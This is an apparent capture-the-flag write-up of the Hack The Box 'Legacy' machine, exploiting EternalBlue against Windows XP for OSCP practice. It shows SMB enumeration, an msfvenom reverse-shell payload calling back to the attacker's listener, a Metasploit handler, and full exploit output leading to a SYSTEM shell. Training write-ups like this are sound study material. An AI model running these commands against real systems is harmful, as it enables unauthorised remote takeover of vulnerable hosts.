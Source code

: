 # Eternal Blue

We already had an exploit we could use from when we did [[Writeups/Hack the Box/Boxes/Blue/10 - Eternal Blue|Blue]].

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ cp ../blue/exploit.py .
```

The only thing we needed to potentially change was the username. I checked the `nmap` scan, and it showed no username was used to login.

I quickly tried connecting to port 445 to check this behaviour was correct. I wanted to list the shares so I knew which one to connect to, but all of the methods I tried gave a timeout error:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ smbclient -L \\10.10.10.4
protocol negotiation failed: NT_STATUS_IO_TIMEOUT
──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ smbclient -L 10.10.10.4 \\\\legacy\\shares
protocol negotiation failed: NT_STATUS_IO_TIMEOUT
```

So I just tried connecting with `smbmap`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ smbmap -H 10.10.10.4 -u "" -p ""
[+] IP: 10.10.10.4:445	Name: 10.10.10.4                                        
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ smbmap -H 10.10.10.4 -u null -p ""
[!] Authentication error on 10.10.10.4
```

It looks like giving a literal blank username is what we want. So I edited `exploit.py`:

![[Pasted image 20210502103619.png]]

I also had to copy across `mysmb.py`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ cp ../blue/mysmb.py .
```

Then I needed a payload. I did a search for windows payloads to see if there were any specific Windows XP ones:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ msfvenom -l payload | grep windows
```

It looked like there weren't, so I went for the most generic one:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.6 lport=9001 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

I then edited the script to upload the new payload:

![[Pasted image 20210502104328.png]]

I then started a listener:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ msfconsole -q
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/shell_reverse_tcp
payload => windows/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 9001
lport => 9001
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.6:9001 
```

I wanted to see if the exploit worked without selecting a named pipe in advance, as it seemed to have a method to find one. So I ran it just specifying the IP:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ python2 exploit.py 10.10.10.4
Target OS: Windows 5.1
Using named pipe: spoolss
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8209e3c8
SESSION: 0xe10af840
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe11ffcf8
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe11ffd98
overwriting token UserAndGroups
Opening SVCManager on 10.10.10.4.....
Creating service WtPn.....
Starting service WtPn.....
The NETBIOS connection with the remote host timed out.
Removing service WtPn.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

And I got a shell almost instantly:

![[Pasted image 20210502104816.png]]

It seems `whoami` wasn't a command on Windows XP. I tried:

```bash
C:\WINDOWS\system32>echo %USERNAME%
echo %USERNAME%
%USERNAME%
```

But got nothing. So I just went digging for the flags instead.

![[Pasted image 20210502105024.png]]

![[Pasted image 20210502105053.png]]

That's the box!

![[Pasted image 20210502105629.png]]

# Tags

#writeup #cve #windows #oscp-prep 